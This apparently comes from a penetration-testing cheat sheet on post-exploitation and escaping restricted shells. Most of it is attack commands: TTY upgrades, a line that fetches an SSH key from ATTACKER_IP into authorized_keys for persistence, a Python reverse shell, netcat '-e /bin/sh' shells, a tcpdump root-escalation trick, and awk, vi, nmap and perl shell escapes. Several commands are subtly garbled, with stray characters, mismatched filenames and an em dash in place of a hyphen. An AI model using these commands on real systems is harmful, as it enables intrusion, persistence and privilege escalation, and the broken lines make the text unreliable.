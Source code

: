 ## Post exploitation

Get a TTY shell after a reverse shell connection

> $ python -c 'import pty;pty.spawn("/bin/bash")'

Set PATH TERM and SHELL if missing:

> $ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
> export TERM=xterm
> export SHELL=bash

Add public key to authorized keys:

> $ echo $(wget https://ATTACKER_IP/.ssh/id_rsa.pub) >> ~/.ssh/authorized_keys


## Escaping limited interpreters

Some payloads to overcome limited shells:

> $ ssh user@$ip nc $localip 4444 -e /bin/sh
>    enter user's password
> $ python -c 'import pty; pty.spawn("/bin/sh")'
> $ export TERM=linux

> $ python -c 'import pty; pty.spawn("/bin/sh")'

> $ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),   *$ 1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

> $ echo os.system('/bin/bash')

> $ /bin/sh -i

> $ exec "/bin/sh";

> $ perl —e 'exec "/bin/sh";'

From within tcpdump

> $ echo $’id\n/bin/netcat $ip 443 -e /bin/bash’ > /tmp/.test
> chmod +x /tmp/.test
> sudo tcpdump -ln -I eth- -w /dev/null -W 1 -G 1 -z /tmp/.tst -Z root

From busybox

> $ /bin/busybox telnetd - &#124; /bin/sh -p9999

> :!bash
> :set shell=/bin/bash:shell
> !bash
> find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
> awk 'BEGIN {system("/bin/bash")}'
> --interactive
> echo "os.execute('/bin/sh')"
> sudo nmap --script=exploit.nse
> perl -e 'exec "/bin/bash";'


[https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/]: https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
[https://www.sans.org/reading-room/whitepapers/testing/attack-defend-linux-privilege-escalation-techniques-2016-37562]: https://www.sans.org/reading-room/whitepapers/testing/attack-defend-linux-privilege-escalation-techniques-2016-37562